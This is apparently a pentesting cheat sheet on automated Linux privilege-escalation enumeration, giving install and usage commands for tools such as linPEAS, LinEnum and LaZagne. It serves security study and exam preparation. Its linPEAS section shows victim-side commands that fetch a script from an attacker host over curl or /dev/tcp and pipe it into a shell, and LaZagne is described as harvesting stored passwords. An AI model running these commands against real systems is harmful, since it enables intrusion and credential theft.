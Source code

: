 # Automated Checks

## `Linux Priv Esc Bible` | http://pentestmonkey.net/tools/audit/unix-privesc-check

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html" %}

{% embed url="https://pentestmonkey.net/tools/audit/unix-privesc-check" %}

### If wget doesn't work :

```bash
cat > les.sh
This file was created using cat (^._.^)
# Hit Ctrl+D to exit!
```

## `linux-exploit-suggester`

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

```bash
# install
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# usage
./les.sh
```

## `linux-smart-enumeration`&#x20;

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

```bash
# install
wget "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O lse.sh
curl "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -o lse.sh

# usage
# shows interesting information that should help you to privesc
./lse.sh -l1 
# dump all the information it gathers about the system
./lse.sh -l2 
```

## `linPEAS`

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" %}

```bash
# install
wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

# COMMANDS
# Local network
# On the Host
sudo python -m SimpleHTTPServer 80 

# On the Victim
curl $ip/linpeas.sh | sh 

# Without curl
# On the Host
sudo nc -q 5 -lvnp 80 < linpeas.sh 

# On the Victim
cat < /dev/tcp/10.10.10.10/80 | sh 

# USAGE
#all checks - deeper system enumeration, but it takes longer to complete.
./linpeas.sh -a 
# superfast & stealth - This will bypass some time consuming checks. In stealth mode Nothing will be written to the disk.
./linpeas.sh -s
 #Password - Pass a password that will be used with sudo -l and bruteforcing other users
./linpeas.sh -P
```

## `linuxprivchecker`

{% embed url="https://github.com/sleventyeleven/linuxprivchecker" %}

```bash
# INSTALL
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

# python 2.6/2.7
python linuxprivchecker.py -w -o linuxprivchecker.log

# python 3.x
pip install linuxprivchecker

# USAGE
linuxprivchecker -w -o linuxprivchecker.log
# or 
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```

## `LinEnum`

{% embed url="https://github.com/rebootuser/LinEnum" %}

```bash
# install
git clone https://github.com/rebootuser/LinEnum.git

# usage
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

## `LaZagne`

{% embed url="https://github.com/AlessandroZ/LaZagne" %}

> Retrieve lots of passwords stored on a local computer.

```bash
# install
git clone https://github.com/AlessandroZ/LaZagne.git
cd LaZagne
pip install -r requirements.txt
cd Linux/

# usage
python laZagne.py
```

## `unix-privesc-check`

{% embed url="https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz" %}

```bash
chmod +x unix-privesc-check
./unix-privesc-check > checks.txt
```

## `pwncat`

{% embed url="https://github.com/calebstewart/pwncat" %}

### Usage

```bash
# enumeration
run enumerate # to enumerate the whole server
run enumerate.file.caps # to enumerate linux capabilities
run enumerate.file.suid # to enumerate suid files
```

![image](https://github.com/buger-shack/scriptkiddie/assets/61053314/c28b3cf6-66ed-46e2-bb64-7c8455e35e82)
